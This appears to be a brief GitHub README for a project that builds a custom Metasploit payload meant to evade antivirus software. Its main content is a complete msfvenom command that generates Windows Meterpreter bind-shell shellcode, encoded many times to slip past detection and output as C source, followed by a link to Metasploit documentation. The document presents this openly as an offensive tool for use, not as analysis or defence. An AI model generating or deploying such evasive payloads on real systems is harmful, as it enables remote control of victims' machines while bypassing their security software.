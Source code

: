 ## Custome metasploit payload

Provide source for build a metasploit payload to evade av software

### Generate shellcode

Before compiling you need to create a shellcode with msfvenom.

```shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -b '\x00' -i 42 -f c
```

## Documentation
[https://www.offensive-security.com/metasploit-unleashed/msfvenom/](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
